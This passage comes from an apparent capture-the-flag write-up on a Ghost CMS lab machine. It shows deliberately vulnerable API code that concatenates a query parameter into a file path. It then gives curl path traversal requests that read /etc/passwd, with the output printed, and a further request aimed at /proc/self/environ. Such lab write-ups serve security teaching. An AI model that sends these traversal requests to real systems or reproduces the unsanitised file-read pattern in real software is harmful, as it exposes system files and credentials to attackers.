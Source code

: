Next, I examined `posts-public.js`, where I found something juicy — a path traversal vulnerability:
![Screenshot](Ghost11.png)

```
            const posts = await postsService.browsePosts(options);
            const extra = frame.original.query?.extra;
            if (extra) {
                const fs = require("fs");
                if (fs.existsSync(extra)) {
                    const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
                    posts.meta.extra = { [extra]: fileContent };
                }
            }
            return posts;
```

This suggests we can potentially read arbitrary files from the `/var/lib/ghost/extra/` directory.

I sent a crafted request to test `/etc/passwd`:
```
└─$ curl 'http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../../../../etc/passwd&key=a5af628828958c976a3b6cc81a'
```
And boom:
```
{"posts":[<SNIP>"extra":{"../../../../../../../etc/passwd":"root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt<SNIP>
```
Now that we've confirmed the path traversal is working, Let's try to access environment variables via `/proc/self/environ`:
```
└─$ curl 'http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../../../../proc/self/environ&key=a5af628828958c976a3b6cc81a'
```